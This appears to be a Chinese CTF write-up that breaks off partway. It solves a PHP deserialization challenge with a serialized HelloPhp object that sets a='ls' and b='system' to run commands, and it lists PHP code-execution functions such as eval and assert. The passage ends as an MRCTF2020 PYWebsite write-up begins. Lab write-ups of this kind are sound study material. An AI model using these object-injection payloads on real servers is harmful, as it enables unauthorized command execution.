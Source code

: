 ![在这里插入图片描述](https://img-blog.csdnimg.cn/6a4e3918e4b94c85a5de4b3dcbe99521.png)
ctrl+U看源码

![在这里插入图片描述](https://img-blog.csdnimg.cn/8fbb69417c484063b92ebce4981ba285.png)
发现有`time.php`这个页面且带参数`source`,访问之

![在这里插入图片描述](https://img-blog.csdnimg.cn/6931d6603d21451a9e2bfdb3431972af.png)
发现HelloPhp类的解构函数有个函数拼接

```php
<?php

class HelloPhp
{
    public $a='ls';
    public $b='system';
}

$a=new HelloPhp;

echo urlencode(serialize($a));


```

没有回显，可能是过滤了

常见的函数执行:

```php
* `eval`
* `preg_replace+/e`
* `assert`
* `call_user_func($参数，$函数)`

    `call_user_func_array()`

* `create_function($参数，$函数)`

```

用assert执行phpinfo,搜索flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/88b52a5255764585a05e4ee1ca07d45b.png)

# [MRCTF2020]PYWebsite

![在这里插入图片描述](https://img-blog.csdnimg.cn/73e0369cdab642859a209e73b4c99849.png)
这个题看起来就很像买彩票那个，大家应该知道，或者买独角兽那道

![在这里插入图片描述](https://img-blog.csdnimg.cn/369fbeb4115440ac98bd95f1c6b59f72.png)
进来震惊了，二维码好家伙，哈哈哈哈哈，好奇扫了一下发现并不是
